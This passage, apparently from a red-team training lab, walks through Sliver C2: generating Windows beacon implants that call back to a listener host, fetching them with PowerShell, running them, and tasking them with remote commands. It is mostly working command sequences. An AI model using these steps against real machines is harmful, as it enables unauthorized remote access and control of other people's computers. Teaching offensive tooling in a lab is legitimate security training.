- `--seconds <SECONDS_NUMBER>`: This parameter specifies the beacon interval time, which determines how often the beacon checks in with the Sliver server
- `--jitter <SECONDS_NUMBER>`: This parameter specifies the random delay to the beacon interval, making the check-in pattern less predictable

For example, with `--seconds 10 --jitter 5`, the beacon will check in approximately every 10 seconds with up to 5 seconds of random variation.

Run the following command to create a beacon directly:

```bash
generate beacon --http 10.10.68.153:80 --os windows --arch amd64 --format exe --seconds 10 --jitter 5 --save .
```



This beacon will connect back to our HTTP listener.

### Profile-Based Beacon Implant Generation

First, we will create the beacon's profile, and then we will generate a beacon from it. Just like in direct generation, we must add the `beacon` keyword after the `profiles new` command.

Run the following commands for the profile creation:

```bash
profiles new beacon --http 10.10.68.153:80 --os windows --arch amd64 --format exe --seconds 10 --jitter 5 win-http-beacon
```



Create a new beacon implant from the profile. Run:

```bash
profiles generate win-http-beacon --save .
```



The `implants` command lists all the created implants. Both beacon and session ones.

```bash
implants
```



We can now test our beacon implants!

Start the python server from the second Ubuntu terminal with the following command if stopped:

```bash
python3 -m http.server
```

And then execute the following commands in the same powershell as before, to transfer the beacon implants:

```powershell
iwr "http://10.10.68.153:8000/SOFT_DEPRESSIVE.exe" -OutFile "SOFT_DEPRESSIVE.exe"
```

```powershell
iwr "http://10.10.68.153:8000/LOUD_RUB.exe" -OutFile "LOUD_RUB.exe"
```

```bash
ls
```



Now we have them in the Windows VM, let's execute both of them and verify that they connect back to Sliver.

From here, we can now execute the beacon implants. Execute the first one:

```powershell
.\SOFT_DEPRESSIVE.exe
```



Return to the Ubuntu terminal where we are using the Sliver. You will notice a notification from our beacon implant connection.



This confirms that the beacon implant executed and connected back to our Sliver C2 server (Press Enter to write again at the Sliver console). 

Run the second implant like before:

```powershell
.\LOUD_RUB.exe
```





As expected, both beacon implants executed and connected back to our Sliver C2 server. The only difference is that, unlike sessions, beacons may not appear immediately. This is expected because they check in based on their configured interval.

To see the beacons, use the `beacons` command:

```bash
beacons
```



To interact with a beacon, you can use the `use` command as before or use the `beacons` command parameter `-i` followed by a beacon ID.

```bash
beacons -i <BEACON_ID>
```

Interact with the first beacon:

```bash
beacons -i c9ed45da
```



Now we can assign tasks to the beacon. We will see how it functions in the next section.

Again, with the `background` command, we can exit from the beacon implant.

```bash
background
```



In case we want to terminate one or all the beacons, we can use the following parameters:

- `-k <BEACON_NAME>`: With the use of this parameter, the designated beacon is killed
- `-K`: With the use of this parameter, all the beacons are killed

Terminate the first beacon:

```bash
beacons -k c9ed45da
```





## Tasks

In Sliver, tasks are commands assigned to implants. In session mode, commands are usually executed interactively. In beacon mode, commands are queued as tasks and executed when the beacon checks in with the Sliver server.

In this section, we will focus on beacon tasks.

First, list the beacons and observe that the one we terminated hasn't communicated with the Sliver server for a long time.

```bash
beacons
```

Use the remaining beacon.

```bash
use
```


Assign the following tasks:

```bash
ls
```


We can see the message that the task was assigned to the implant. Wait a moment for the beacon to connect to the Sliver server. Then the beacon will receive, execute the assigned tasks, and return the results.


We can assign more than one task at a time!

In order to see the assigned tasks, use the `tasks` command. Assign the following tasks and then run the `tasks` command:

```bash
ifconfig
```

```bash
env
```


```bash
tasks
```


Observe that the new tasks are in the `pending` state. This means that the tasks are queued on the Sliver server and have not yet been received by the beacon. The Sliver C2 waits for the beacon to communicate with the Sliver C2 server, and then it will assign them. Execute the `tasks` command again after a few seconds, and you will see that the status will be `sent`.

```bash
tasks
```


This means that the beacon has received the tasks. After executing them, it will return the results during a later check-in. After receiving the results, run the `tasks` command again, and you will see that the status of these tasks will be `completed`.

```bash
tasks
```


If we want to see the result of a task again that has already been executed, it is not necessary to assign the same task again. The `tasks` command provides the `fetch` keyword. It fetches the details of a beacon task. Hence, we don't have to execute it again. To fetch a task, run the `tasks fetch` command followed by a task ID.

```bash
tasks fetch 61b4fe60
```


When we have a beacon implant and we want to create an interactive session on the same target machine, we don't have to generate a new one and then perform the delivery phase again. Beacon implants have the `interactive` command that does the job for us. By executing this command, a session to this machine is created over the same protocol that the beacon was compiled for, and we can switch to it using the `sessions` or `use` command. As a result, we will have both a beacon and a session connected from the same target machine.

>[!Note]
>
>The `interactive` command does not create a new file on the target disk. It uses the already running beacon process to start an interactive session.

Create a session through the beacon with the `interactive` command:

```bash
interactive
```


When we receive the notification below, it means that the session is ready.


List the sessions and find the one we just created:

```bash
sessions
```


Then change from the beacon to this session:

```bash
use ff27713c
```


As we can see, we are now using a session, and we can take the results from our tasks immediately!

```bash
whoami
```

```bash
pwd
```

```bash
ls
```


When we are done using the interactive session, use the `close` command to close the session without killing the implant. The original beacon will continue to check in with the Sliver server.

```bash
close
```

## Cleanup

After completing the lab, we should clean up the environment by closing active sessions, stopping beacons and stopping listeners.

```bash
sessions --kill-all
beacons --kill-all
jobs --kill-all
```

[Back to HTTP As Exfil Main Page](/Decks/CORE_v3.1/C2E/HTTPS_As_Exfil.md)

[Back to HTTPS As Exfil Page](/Decks/CORE_v3.1/C2E/HTTP_As_Exfil.md)

[Back to Domain Fronting As C2 Main Page](/Decks/CORE_v3.1/C2E/Domain_Fronting_As_C2.md)
